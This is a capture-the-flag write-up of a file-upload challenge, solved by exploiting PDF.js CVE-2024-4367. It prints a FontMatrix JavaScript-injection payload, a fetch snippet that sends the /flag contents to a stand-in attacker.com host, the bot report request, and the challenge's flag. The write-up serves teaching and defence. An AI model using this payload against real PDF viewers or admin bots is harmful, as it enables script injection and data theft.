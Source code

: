 
# 🚀 **Mysterious File Upload Journey: Breaking PDF.js and Grabbing the Flag**

![Challenge Banner](https://media1.tenor.com/m/54mjjpuowCgAAAAd/ninjala-jane.gif)

### **Challenge Information**
- **Name:** Navigate a Mysterious File Upload Journey  
- **Challenge URL:** [http://172.206.89.197:9000/](http://172.206.89.197:9000/)  
- **Bot URL:** [http://172.206.89.197:9000/report](http://172.206.89.197:9000/report)  
- **Attachment:** [upload.zip](./upload.zip)  
- **Author:** [@S0nG0ku](https://twitter.com/s0ng0ku)  

---

## **📖 Introduction**
This writeup details how we explored a file upload challenge to bypass security filters and extract a flag from a restricted endpoint. Here's how the adventure unfolded:

1. Register on the platform.
2. Analyze the upload feature.
3. Exploit PDF.js to execute arbitrary JavaScript.
4. Retrieve the flag using the admin bot.

---

## **🕵️ Recon and Discovery**

### **1️⃣ Homepage**
The homepage presents a **login/register** feature and a basic upload interface.

![Homepage Screenshot](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*siGDgDwLDubjrv_6xkE5iQ.png)

### **2️⃣ Upload Feature**
Upon logging in, we access the **upload form**. The filter applied here is based only on **MIME type** validation, making it susceptible to tampering.

```html
<!-- Upload Filter in Source Code -->
if (file.mimeType === 'application/pdf') {
    // Allow upload
}
```
![Homepage Screenshot](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*peqYpT6c7tgO05KshrvWAg.png)

This weakness invites further exploration, but before rushing into bypasses, we check additional features.

---

## **⚙️ Understanding the Bot**
- **Behavior:** The admin bot visits **local URLs** shared through the application, verified using a **regex filter**.  
- **Access Scope:** The bot has privileged access to the `/flag` endpoint, which is restricted to **local IPs only (127.0.0.1)**.
![Homepage Screenshot](https://miro.medium.com/v2/resize:fit:960/format:webp/1*9R8YFbmMSyRV_vfyxkuFVQ.png)


---

## **💡 The Exploit Plan**
To retrieve the flag, we'll use the following approach:

1. **Upload a malicious PDF** containing JavaScript to access `/flag` and send its content to our external server.  
2. **Send the bot a link** to the malicious PDF file hosted on the challenge server.  
3. The bot will execute our JavaScript and exfiltrate the flag to us.

---

## **📜 Crafting the Malicious PDF**
The platform uses **PDF.js** for rendering uploaded PDF files. A known vulnerability, **CVE-2024-4367**, allows **arbitrary JavaScript execution** through the `FontMatrix` attribute.

### **Vulnerability Exploit**
The payload injects JavaScript by escaping parentheses in the `FontMatrix` field:
```javascript
/FontMatrix [1 2 3 4 5 (0\); fetch('/flag')
    .then(r => r.text())
    .then(f => location='https://attacker.com/?flag=' + encodeURIComponent(f))]
```

### **Steps to Create the PDF**
1. Use a PDF generation tool (e.g., [PDFEdit](https://pdfedit.cz/) or Python libraries like `fpdf`) to embed the exploit.
2. Ensure all parentheses are escaped to prevent premature interpretation.

![Homepage Screenshot](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*uwr9x8LSQH1oV2lWG9WHOg.png)

---

## **🖥️ Exploiting the Bot**
1. Upload the malicious PDF file.
2. Grab the file's URL and modify it to point to `127.0.0.1:5000/view/<filename>` for local bot access.
3. Send the URL to the bot via the provided reporting feature.
![Homepage Screenshot](https://miro.medium.com/v2/resize:fit:1238/format:webp/1*y3P4Mjc308n5xTHcAuZPCg.png)

```plaintext
POST /report
Content-Type: application/json

{
    "url": "http://127.0.0.1:5000/view/malicious.pdf"
}
```

4. Wait for the bot to visit the URL and execute the JavaScript.

---

## **🏁 Retrieving the Flag**
Once the bot executes the script, it fetches the flag from `/flag` and sends it to our server:
```javascript
fetch('/flag')
    .then(response => response.text())
    .then(flag => {
        location = `https://attacker.com/?flag=${encodeURIComponent(flag)}`;
    });
```

The flag will appear in your server logs, and in this case, it's:

```plaintext
AKASEC{PDF_1s_4w3s0m3_W1th_XSS_&&_Fr33_P4le5T1n3_r0t4t333d_loooool}
```

---

## **🎯 Key Takeaways**
1. **MIME Type Filters:** Always validate files using deeper inspection (e.g., content-based validation).
2. **Bot Exploits:** Bots with local access should have strict sandboxing to prevent malicious exploitation.
3. **PDF.js Vulnerabilities:** Always use the latest versions of libraries to patch known vulnerabilities.

---

## **📚 Resources**
- [PDF.js Documentation](https://mozilla.github.io/pdf.js/)
- [CVE-2024-4367 Details](https://cve.mitre.org/)
- [PDF Injection with JavaScript](https://codeanlabs.com/pdf-js-injection)
- [File Upload Security Best Practices](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

---

## **🌈 Bonus: Make It Your Own!**
You can use this approach in Capture The Flag (CTF) competitions or educational scenarios to practice:
- **File upload bypass techniques.**
- **Exploiting vulnerable libraries.**
- **Exfiltration using JavaScript payloads.**

> **Disclaimer:** This writeup is for educational purposes only. Always ensure you have proper authorization before performing any security testing.

---
